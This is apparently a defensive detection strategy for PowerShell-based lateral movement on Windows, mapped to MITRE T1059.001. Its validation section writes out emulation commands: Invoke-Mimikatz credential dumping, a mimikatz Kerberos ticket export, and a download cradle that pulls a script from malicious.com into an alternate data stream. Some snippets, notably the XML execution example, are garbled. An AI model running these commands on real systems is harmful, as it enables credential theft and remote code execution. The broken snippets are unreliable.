 # Alerting & Detection Strategy: Detect Adversarial Use of PowerShell for Lateral Movement

## Goal
This technique aims to detect adversarial attempts leveraging PowerShell for lateral movement within Windows environments. Specifically, it focuses on identifying tactics used by attackers to execute and persist malicious payloads across the network using PowerShell.

## Categorization
- **MITRE ATT&CK Mapping:** T1059.001 - PowerShell
- **Tactic / Kill Chain Phases:** Execution
- **Platforms:** Windows
- [MITRE ATT&CK Reference](https://attack.mitre.org/techniques/T1059/001)

## Strategy Abstract
The detection strategy encompasses monitoring and analyzing data sources such as event logs, process activity, network traffic, and PowerShell execution history. Patterns indicative of lateral movement include suspicious command-line arguments, abnormal use of built-in PowerShell commands (e.g., `Invoke-Command`, `IEX`), misuse of Windows Management Instrumentation (WMI), and unusual network communication patterns originating from PowerShell processes.

## Technical Context
Adversaries often exploit PowerShell due to its native presence on Windows systems and its ability to script complex actions. They leverage various techniques such as encoded commands, obfuscation, or leveraging legitimate administrative tools for malicious purposes. Common real-world implementations involve using Mimikatz for credential dumping, executing BloodHound for network mapping, and employing other lateral movement tools like Invoke-AllChecks.

Adversaries may use the following sample commands in their attacks:
- `powershell.exe -NoP -NonI -W Hidden -Exec Bypass -Command "Invoke-Mimikatz"`
- `Invoke-Bloodhound`
- PowerShell scripts executed via encoded command parameters to bypass security controls.

## Blind Spots and Assumptions
- **Blind Spots:** Detection may not cover all obfuscation techniques, particularly those that employ advanced encoding or custom-built payloads.
- **Assumptions:** Assumes standard logging configurations are enabled, and security tools can parse PowerShell logs effectively. It presumes normal network baselines to identify anomalies.

## False Positives
Potential benign activities include:
- Legitimate administrative scripts using similar command structures.
- IT operations teams performing system maintenance or updates that use PowerShell for automation tasks.
- Developers executing debugging scripts with encoded commands.

## Priority
**Priority: High**

Justification: The sophistication and versatility of PowerShell make it a preferred tool for attackers, enabling them to execute complex attacks while evading detection. It can significantly compromise network security if not detected promptly.

## Validation (Adversary Emulation)
To validate this detection strategy in a controlled environment:
1. **Mimikatz:** Execute Mimikatz to dump credentials.
   ```bash
   powershell.exe -NoP -NonI -W Hidden -Exec Bypass -Command "Invoke-Mimikatz"
   ```

2. **BloodHound Execution:**
   - From local disk:
     ```bash
     Invoke-Bloodhound
     ```
   - From memory using Download Cradle:
     ```powershell
     Invoke-DownloadCradle
     ```

3. **Mimikatz with PsSendKeys:**
   ```bash
   mimikatz.exe 'sekurlsa::kerberos /domain:yourdomain.com /export'
   ```

4. **Invoke-AppPathBypass and Similar Techniques:** Use these methods to bypass execution restrictions.
   
5. **XML-based Command Execution:**
   - Utilize MsXml COM object:
     ```powershell
     $xmldoc = New-Object System.Xml.XmlDocument; $node = $xmldoc.CreateElement('script'); [System.Management.Automation.PSScriptMethod]::New($node, 'Invoke-Command')
     ```

6. **NTFS Alternate Data Stream Access:**
   Use streams to hide scripts:
   ```powershell
   echo "IEX (New-Object Net.WebClient).DownloadString('http://malicious.com/script.ps1')" > hidden_script.ps1:stream
   ```

7. **Session Creation and Abuse:** Create sessions with encoded commands for persistence.

8. **Command Parameter Variations:**
   - Use different encoding schemes to evade detection:
     ```powershell
     ATHPowerShellCommandLineParameter -EncodedCommand [Base64 Encoded String]
     ```

## Response
When an alert is triggered, analysts should:
- Immediately isolate affected systems.
- Perform a detailed investigation of the PowerShell logs to understand the scope and nature of execution.
- Review network traffic for any unusual outbound connections or data exfiltration attempts.
- Update detection rules to refine alerts and reduce false positives.
- Engage with incident response teams to mitigate potential damage.

## Additional Resources
For further reading and context:
- **SOAPHound Execution:** Explore its use in extracting BloodHound data.
- **Suspicious PowerShell Patterns:** Review patterns such as Base64 encoding usage, IEX execution anomalies, and process creation signals for suspicious activities.
- **HackTool - Mimikatz Execution:** Understand how credential dumping is carried out using Mimikatz.

These resources provide insights into the evolving nature of PowerShell-based attacks and offer guidance on enhancing detection capabilities.